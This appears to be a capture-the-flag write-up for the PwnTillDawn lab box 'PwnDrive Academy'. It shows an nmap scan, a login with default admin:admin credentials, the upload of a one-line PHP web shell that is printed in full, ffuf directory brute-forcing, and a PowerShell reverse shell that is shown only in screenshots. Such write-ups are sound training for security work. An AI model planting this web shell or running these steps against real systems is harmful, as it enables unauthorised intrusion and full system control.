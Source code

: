 ### PwnDrive Academy PwntillDawn

### IP Address = 10.150.150.11

### Difficulty = Easy

### OS = windows
Hi guys,
<br> Will be walking you through a pwntilldawn easy box "pwndriveacademy"
<br> Let's begin the hacks :) .

## NMAP SCAN:

```

┌──(venus㉿AL13N)-[~]
└─$ nmap -A -T5 10.150.150.11                         
Starting Nmap 7.92 ( https://nmap.org ) at 2023-06-03 22:17 WAT
Warning: 10.150.150.11 giving up on port because retransmission cap hit (2).

** (atril:3324): WARNING **: 22:19:20.176: Error setting file metadata: No such file or directory
Nmap scan report for 10.150.150.11
Host is up (0.19s latency).
Not shown: 980 closed tcp ports (conn-refused)
PORT      STATE    SERVICE            VERSION
21/tcp    open     ftp                Xlight ftpd 3.9
80/tcp    open     http               Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.9)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.4.9
|_http-title: PwnDrive - Your Personal Online Storage
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
135/tcp   open     msrpc              Microsoft Windows RPC
139/tcp   open     netbios-ssn        Microsoft Windows netbios-ssn
306/tcp   filtered unknown
443/tcp   open     ssl/http           Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.9)
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.4.9
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| tls-alpn: 
|_  http/1.1
|_http-title: PwnDrive - Your Personal Online Storage
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
445/tcp   open     microsoft-ds       Windows Server 2008 R2 Enterprise 7601 Service Pack 1 microsoft-ds
1110/tcp  filtered nfsd-status
1433/tcp  open     ms-sql-s           Microsoft SQL Server 2012 11.00.2100.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2020-08-24T13:11:13
|_Not valid after:  2050-08-24T13:11:13
|_ssl-date: 2023-06-03T22:06:39+00:00; +46m37s from scanner time.
| ms-sql-ntlm-info: 
|   Target_Name: PWNDRIVE
|   NetBIOS_Domain_Name: PWNDRIVE
|   NetBIOS_Computer_Name: PWNDRIVE
|   DNS_Domain_Name: PwnDrive
|   DNS_Computer_Name: PwnDrive
|_  Product_Version: 6.1.7601
3306/tcp  open     mysql              MySQL 5.5.5-10.4.14-MariaDB
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.4.14-MariaDB
|   Thread ID: 1053
|   Capabilities flags: 63486
|   Some Capabilities: ConnectWithDatabase, Speaks41ProtocolOld, LongColumnFlag, Support41Auth, SupportsTransactions, InteractiveClient, Speaks41ProtocolNew, IgnoreSigpipes, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, FoundRows, SupportsLoadDataLocal, SupportsCompression, ODBCClient, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: jDU_\3&cCbDmy9MYU}9B
|_  Auth Plugin Name: mysql_native_password
3371/tcp  filtered satvid-datalnk
3389/tcp  open     ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=PwnDrive
| Not valid before: 2023-06-02T18:08:29
|_Not valid after:  2023-12-02T18:08:29
|_ssl-date: 2023-06-03T22:06:37+00:00; +46m37s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: PWNDRIVE
|   NetBIOS_Domain_Name: PWNDRIVE
|   NetBIOS_Computer_Name: PWNDRIVE
|   DNS_Domain_Name: PwnDrive
|   DNS_Computer_Name: PwnDrive
|   Product_Version: 6.1.7601
|_  System_Time: 2023-06-03T22:06:29+00:00
5631/tcp  filtered pcanywheredata
8042/tcp  filtered fs-agent
49152/tcp open     msrpc              Microsoft Windows RPC
49153/tcp open     msrpc              Microsoft Windows RPC
49154/tcp open     msrpc              Microsoft Windows RPC
49155/tcp open     msrpc              Microsoft Windows RPC
49156/tcp open     msrpc              Microsoft Windows RPC
49157/tcp open     msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| ms-sql-info: 
|   10.150.150.11:1433: 
|     Version: 
|       name: Microsoft SQL Server 2012 RTM
|       number: 11.00.2100.00
|       Product: Microsoft SQL Server 2012
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2008 R2 Enterprise 7601 Service Pack 1 (Windows Server 2008 R2 Enterprise 6.1)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: PwnDrive
|   NetBIOS computer name: PWNDRIVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-06-03T15:06:29-07:00
|_clock-skew: mean: 1h46m37s, deviation: 2h38m45s, median: 46m36s
| smb2-time: 
|   date: 2023-06-03T22:06:29
|_  start_date: 2020-08-24T13:11:20
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: PWNDRIVE, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:89:87:cb (VMware)
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.34 seconds

```

From the scan it shows the box is running on a windows OS

<br> so, enumerating port 21 (ftp) gives nothing. 

<br> Then moving on to the next port which's port 80(http)

<br> we can see that there's nothing intresting on the page except the *signin* functionality

<br> so, let's try to signin using default credentials **admin:admin** 

![2023-06-03_22-45](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/af1826b2-aa06-4337-b2d7-55d26d90e0ca)

boom we are in the admin's panel.

<br> AS you can see there is an upload functionality,let's try to upload a shell (NB: the server is running php. Php web shell should work)

![succ_upload](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/1d05b3a7-0383-459d-afa3-97d66d5b38f2)
wow our shell has been uploaded successfully.
~~~
the shell
<?php system($_GET['cmd']); ?>
~~~
so, let's find our uploaded shell by bruteforcing for directories using ffuf
![finding_upload](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/0f28f198-8eb0-433f-8000-c84fb1178698)
Good we found it ;)

Now lets's gain  reverse shell via our uploaded webshell
![revrsjpg](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/a68e92f2-b193-41dc-958b-0f0b2f1ea797)
i used a powershell reverse shell from ![revshells](https://revshells.com/) .
<br> Then start netcat listener and press F5 to refresh the page.
![done](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/8c23decd-9d37-41df-834a-846a6ea9a815)

BOOM!!  sweet reverse shell ;)

luckily we got the shell as system , escalating privilege isn't required.

DONE!!

*Till another day 999 to the world*

